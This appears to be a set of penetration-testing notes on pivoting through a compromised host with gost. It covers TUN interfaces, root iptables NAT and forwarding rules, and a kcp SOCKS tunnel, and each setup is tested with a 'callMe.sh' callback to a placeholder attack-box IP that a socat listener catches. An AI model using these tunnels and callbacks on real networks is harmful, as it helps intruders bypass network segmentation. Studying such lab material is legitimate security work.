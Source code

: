```
[[ gost~Kali ]]
	#Create the tun interface on the server
ssh root@tom './gost -L="tun://:8421?net=192.168.123.1/24&route=10.X.22.0/24"' &

	#Create the tun interface on the client
sudo ./gost -L="tun://:8421/tom:8421?net=192.168.123.2/24&gw=192.168.123.1&route=10.X.22.0/24" &
	#try to ping the other side of the tun interface
ping 192.168.123.1 -c 1

lsof -i tcp:4444
	socat -u tcp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
```

#### Prepare iptables rules and forwarding

Now that we have our tun interface, we have to set up our iptables and routing as we did for the ssh tun interface.

```
ssh root@tom 'sysctl -w net.ipv4.ip_forward=1'
ssh root@tom 'iptables -t nat -I POSTROUTING -s 192.168.123.0/24 ! -o tun0 -j MASQUERADE'
ssh root@tom "iptables -I FORWARD --src 192.168.123.2 -j ACCEPT"
```


#### Clean up

```
[[ gost~Kali ]]
sudo pkill gost
ssh root@tom 'pkill gost'
ssh root@tom 'iptables -t nat -D POSTROUTING -s 192.168.123.0/24 ! -o tun0 -j MASQUERADE'
ssh root@tom "iptables -D FORWARD --src 192.168.123.2 -j ACCEPT"
```

### kcp socks

Gost offers the ability to tunnel traffic through some interesting channels like [kcp](https://github.com/skywind3000/kcp/blob/master/README.en.md), QUIC (quic), shadowsocks (ss), web sockets (wss), and others.


```
ssh root@tom "./gost -L socks5+kcp://:8443" &
lsof -i tcp:9050
./gost -L=:9050 -F=socks5+kcp://tom:8443 &
lsof -i tcp:9050
lsof -i tcp:4444
	socat -u tcp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
proxychains -q callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
```
